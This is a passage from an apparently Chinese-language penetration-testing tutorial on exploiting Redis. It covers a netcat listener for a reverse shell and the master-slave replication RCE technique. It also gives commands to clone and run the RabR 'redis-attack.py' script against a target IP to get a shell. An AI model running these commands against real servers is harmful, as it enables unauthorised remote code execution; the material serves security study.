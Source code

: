 ![image-20241101093203843](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241101093203843.png)
* 攻击机监听6666端口，等反弹shell



```
nc -lnvp 6666

```

#### 主从复制RCE


* windows只能用主从复制打


 **原理？**



```
# 主从复制
	Redis 支持主从复制，用于数据的高可用和备份。配置为“从库”的 Redis 实例会从“主库”同步数据，复制的过程是通过主库将数据同步给从库完成的。
	
# 漏洞原理
	攻击者通过伪装成一个 Redis 主库，诱导目标 Redis 实例充当从库角色，使目标实例连接并同步攻击者的伪造主库数据。在同步数据的过程中，攻击者可以注入包含恶意命令的数据，当目标 Redis 解析并执行这些数据时，便会触发代码执行漏洞。

```

 **利用：**


​ 1\.通过脚本利用


![image-20241101121639967](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241101121639967.png)

```
# 下载脚本
git clone https://github.com/0671/RabR.git

# 进入文件夹
cd RabR

# 使用脚本
python redis-attack.py -r 目标ip -p 目标端口 -L 攻击机ip -b


```

   脚本可以RCE，反弹shell


![image-20241101122047509](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241101122047509.png)
#### 总结：


  最常用的是写定时任务和主从复制，因为linux都有定时任务，而windows可以利用主从复制getshell
